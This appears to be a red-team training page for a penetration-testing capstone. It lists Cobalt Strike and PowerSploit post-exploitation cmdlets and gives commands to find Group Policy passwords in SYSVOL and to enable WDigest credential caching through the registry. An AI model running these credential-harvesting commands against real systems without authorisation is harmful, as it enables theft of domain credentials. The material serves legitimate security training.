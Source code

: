 ```yaml
---
layout: ADDITIONAL TOOLS AND TECHNIQUES
---
```

# Cobalt Strike
While Cobalt Strike is permitted to be used for the Capstone, we do not offer specific training on the tool as the Capstone is meant to be a tool agnostic exercise and the complexity of the tool exceeds the scope of CQI training. If you wish to utilize Cobalt Strike in the Capstone, you are expected to rely on your own experience and the extensive training resources available online (i.e. https://blog.cobaltstrike.com/ and https://www.cobaltstrike.com/).

# PowerSploit Techniques
PowerSploit is a collection of post-exploitation Powershell tools with various capabilities including exfiltration, persistence, privilege escalation, reconnaissance, and more. The assessment team typically employs these tools through loading them into Cobalt Strike beacons.

# Specific Cmdlet Tools
The cmdlets within PowerSploit have an incredible amount of capabilities which can be researched and explored in a couple of different ways:

 1. Viewing the PowerSploit github: (https://github.com/PowerShellMafia/PowerSploit)
 1. Viewing documentation online: (https://powersploit.readthedocs.io/en/latest/)
 1. Viewing the actual source scripts and reading through the comments
 1. Viewing cheatsheets such as: (https://github.com/HarmJ0y/CheatSheets)

The commands listed below are some of the most commonly used commands on HVA and RVA engagements, however you are encouraged to do your own research and determine other commands that might be most useful in the Capstone.

Note: if running these commands via Cobaltstrike, all of these must be proceeded by "powershell" or "powerpick" (unmanaged Powershell).
### PowerUp
Invoke-AllChecks
-This runs all possible checks in PowerUp
-Useful way to just quickly go through the checks and determine any easy escalation paths
Get-GPPPassword
-Retrieves any group policy passwords that are discovered
Get-GPPAutologon
-Retrieves any group policy auto-logon creds
### PowerView
Find-LocalAdminAccess
-Finds all local administrator access for the current user for all computers on the domain
-Often takes a long time to run and return complete results, so leave it running
FindLastLogonLocation
-Search for the last logon location for a specific user on the current domain
Invoke-ShareFinder
-Searches for network share drive access on the current domain
Get-NetUser - UserName [username]
Get-NetGroup -UserName [username]
-Searches for what group the specified user is a member of
Get-DomainTrust
Get-ForestTrust
-Search for trust relationships

# Find GPP Passwords in SYSVOL
```
findstr /S cpassword $env:logonserver\sysvol\*.xml
```
```
findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)
```

# Run Powershell prompt as a different user, without loading profile to the machine [replace DOMAIN and USER]
```
runas /user:DOMAIN\USER /noprofile powershell.exe
```
# Insert reg key to enable Wdigest on newer versions of Windows
```
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1
```